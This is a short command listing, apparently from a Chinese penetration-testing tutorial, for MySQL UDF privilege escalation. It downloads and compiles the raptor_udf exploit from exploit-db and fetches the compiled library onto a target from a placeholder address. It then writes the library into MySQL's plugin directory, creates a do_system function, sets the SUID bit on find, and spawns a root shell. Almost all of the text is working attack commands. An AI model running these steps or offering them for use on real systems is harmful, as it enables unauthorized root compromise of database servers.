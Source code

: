 ```shell
wget https://www.exploit-db.com/download/1518
mv 1518 raptor_udf.c
gcc -g -c raptor_udf.c
gcc -g -shared -o raptor_udf.so raptor_udf.o -lc
mv raptor_udf.so 1518.so
下载 1518 到目标服务器
wget https://xx.xx.xx.xx/1518.so
进入数据库进行 UDF 导出
use mysql;
create table foo(line blob);
insert into foo values(load_file('/tmp/1518.so'));
select * from foo into dumpfile '/usr/lib/mysql/plugin/1518.so';
创建 do_system 函数调用
create function do_system returns integer soname '1518.so'；
select do_system('chmod u+s /usr/bin/find');
#配合使用 find 调用执行
touch xiaodi
find xiaodi –exec "whoami" \;
find xiaodi –exec "/bin/sh" \;
id
```
